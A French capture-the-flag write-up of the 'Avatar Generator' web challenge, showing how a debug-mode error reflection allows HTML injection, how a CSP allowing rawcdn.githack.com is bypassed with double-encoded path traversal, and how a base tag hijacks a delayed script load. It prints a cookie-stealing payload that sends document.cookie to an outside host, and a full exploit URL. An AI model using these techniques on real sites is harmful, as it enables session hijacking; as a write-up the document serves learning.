

# Avatar Generator | ⭐⭐⭐
Le hasard fait parfois bien les choses.

## Introduction

Il n'y a pas beaucoup d'information sur ce challenge, nous n'avons pas accès au code source, et la description est très courte

Nous pouvons directement aller sur l'url du challenge afin de voir l'application
<br /><br />

## Lancement de l'application



L'application à l'air plutôt basique, nous avons une page à l'accueil qui nous permet de générer un avatar aléatoire, une page contact, afin d'envoyer un lien à l'admin, ainsi qu'une interface admin, protégé par un mot de passe

L'objectif est donc soit de récupérer le mot de passe de l'admin, ou le cookie admin afin d'aller sur cette interface

Sur la page d'accueil, nous avons un bouton "Share avatar", qui nous génère un lien vers l'avatar actuellement généré.

```https://avatar-generator.france-cybersecurity-challenge.fr/index.php?seed=304704&primary=%23e67e22&secondary=%233498db```

Lorsqu'on modifie ces paramètres afin de tenter une XSS, rien ne se passe, et les paramètres sont ignorés.

# Analyse du code source

Tout se passe côté client, donc nous avons accès a tous les scripts du site.

Le site est composé de:
- app.js -> contient les fonctions importantes de l'application
- minBlock.js -> la librairie utilisée afin de générer les avatars
- policies.js -> script qui valide les paramètres passés dans l'URL
- stats.js -> Un script qui ne contient rien
- stats.loader.js -> un script qui charge le script précédent au bout d'une seconde (suspect ?)
```js
// stats.loader.js
setTimeout(function () {
  var s = document.createElement('script');
  s.setAttribute('src', 'assets/js/stats.js');
  document.body.appendChild(s);
}, 1000);
```

Le premier élément interressant est dans app.js
En effet, nous pouvons voir à la ligne 66 que si nous ajoutons #debug à la fin de notre URL, nous pouvons set la variable ```debug``` à ```true```


Cette variable est utilisée pour la gestion des erreurs dans les paramètres.

En effet, comme vu précédement, lorsque nous mettons des valeurs incorrectes pour la génération de l'avatar, une erreur est remontée par ```policies.js```, et un avatar aléatoire est généré à la place.

Cependant, en mettant ```debug``` à ```true```, l'erreur est directement affichée sur la page.

## Gestion des erreurs

Le script policies.js construit une erreur de cette façon:

```js
let colorPolicy = TrustedTypes.createPolicy('color', {
    createHTML(color) {
        if (RE_HEX_COLOR.test(color)){
            return color
        }
        throw new TypeError(`Invalid color '${color}'`);
    }
})

let integerPolicy = TrustedTypes.createPolicy('integer', {
    createHTML(integer) {
        if (RE_INTEGER.test(integer)){
            return integer
        }
        throw new TypeError(`Invalid integer '${integer}'`);
    }
})
```

Il va donc mettre le paramètre passé directement dans le message d'erreur, qui sera ensuite affiché sur la page, grâce a notre debug=true

Test d'un 1er payload, avec la valeur du paramètre 'secondary' incorrecte:

```
https://avatar-generator.france-cybersecurity-challenge.fr/index.php?seed=304704&primary=%23e67e22&secondary=<h1 style="color: red">#debug
```


La balise n'est pas interprêtée et est ajoutée en tant que texte.

J'arrive finalement après quelques essais à construire un payload où ma balise est interprêtée:
```</><h1>hey```


Nous avons enfin notre injection !

# Injection

Le code injecté est ajouté avec "innerHtml", ce qui nous permet de créer les balises que l'on veut, mis à part la balise ```script```, qui n'est pas executée

Nous allons donc devoir trouver un moyen d'executer du script.. sans balise script

La première chose à essayer est l'inline script

```
</>
```

Cependant, une CSP nous empêche d'executer du code "inline":


```
Directive CSP:
"script-src rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/ 'self'"
```

Cette CSP nous indique que la source des scripts loadé depuis l'exterieur doit commencer par ```rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/```, ou être de la même origine (```self```)


Je me penche sur l'url ```rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/```

Elle permet en effet d'autoriser l'inclusion d'un script qui vient de l'exterieur, et qui permet apparement de créer des notifications


# Bypass CSP

En allant sur l'url ```rawcdn.githack.com```, je me rend compte que c'est un site pour nous permettre de servir des fichiers statiques avec le bon header "Content-Type", dont le contenu est directement situé sur notre github

exemple pour servir le fichier 'payload.js' venant du github de l'utilisateur "Paul", dans son repo "test":
</br>
```rawcdn.githack.com/Paul/test/60c45fffab236a7c5f8abcdee043ec21b178dbf5/payload.js```
</br></br>
Il y a ici une occasion de bypass la CSP puisque nous pouvons aussi uploader des fichiers sur le même host: ```rawcdn.githack.com/```

En effet, si nous importons le payload de Paul en débutant l'url par ```rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/```, il passera à travers la CSP !

exemple:
</br>
```rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/../../../../Paul/test/60c45fffab236a7c5f8abcdee043ec21b178dbf5/payload.js```

Cet URL est valide, et pointe bien sur le payload
</br></br>
Cependant, cela ne s'applique qu'a l'attribut 'src' de la balise 'script'
</br>
Et nous ne pouvons pas injecter de balise script

# Récapitulatif

Éléments trouvés:

- Un script vide ```stats.js``` qui est chargé au bout d'une seconde

- Une injection de balise, via les paramètres de l'url

- Une possiblité de bypasse la CSP src de script (et donc d'importer un script custom si nous pouvons injecter une balise ```script```)

Idée d'exploit:

faire en sorte de charger le script ```stats.js``` avec un payload custom

Après beaucoup de recherche, je tombe sur une balise qui à l'air très interessante:


## La balise ```base```

Cette balise permet de modifier la baseUrl d'un site, qui, par défaut, est égale a l'url du site. Cette baseUrl est utilisé lorsque l'on utilise des chemins relatifs

example lors d'une récupération de script avec un chemin relatif:

```
// Url du site: https://foo.fr
// Chemin du script à importer: https://foo.fr/bar.js

<script src="bar.js">
-> import https://foo.fr/bar.js

// Changement de baseUrl

<base href='https://akeur.fr'>
<script src="bar.js">
-> import https://akeur.fr/bar.js
au lieu de https://foo.fr/bar.js
```

# Exploitation

Nous allons changer la baseUrl du site, afin d'importer un script custom à la place de "assets/js/stats.js", qui va être chargé et executé 1 seconde après la page


## Payload

Pour cela, nous allons d'abord créer un script stats.js.
```js
window.location = "https://interceptor.net?c=" + document.cookie
```
J'upload ensuite ce script dans un repo github, dans un dossier ```"assets/js/"``` afin que l'url se finisse par ```assets/js/stats.js```

Je récupère son URL sur ```githack```:
```https://rawcdn.githack.com/Eteckq/avatar/60c45fffab236a7c5f8abcdee043ec21b178dbf5/assets/js/stats.js```

## Bypass CSP
Comme vu au dessus, je fais en sorte que l'url commence par l'url de la CSP
```https://rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/notyf.min.js/..%252F..%252F..%252F..%252F../Eteckq/avatar/60c45fffab236a7c5f8abcdee043ec21b178dbf5/assets/js/stats.js```

J'ai utilisé la technique du double encoding pour les ```/``` afin que le navigateur n'interprête pas l'url et l'a re-transforme en l'url d'origine

## Changement de l'URL de base

je prépare ensuite la balise ```base```

```html
<base href=https://rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/notyf.min.js/..%252F..%252F..%252F..%252F../Eteckq/avatar/60c45fffab236a7c5f8abcdee043ec21b178dbf5>
```

Avec cette balise, la page va maintenant transformer tous les chemins relatif en mettant l'URL de la racine de mon repo en base


Payload final:
```
https://avatar-generator.france-cybersecurity-challenge.fr/index.php?seed=304704&primary=%23e67e22&secondary=%3C/%3E%3Cbase%20href=https://rawcdn.githack.com/caroso1222/notyf/v2.0.1/dist/notyf.min.js/..%252F..%252F..%252F..%252F../Eteckq/avatar/60c45fffab236a7c5f8abcdee043ec21b178dbf5/%3E#debug
```

1 seconde après avoir injecté le payload, le script est bien lancé !
Il ne reste plus qu'a récupèrerle cookie de l'admin, et de nous rendre sur /admin


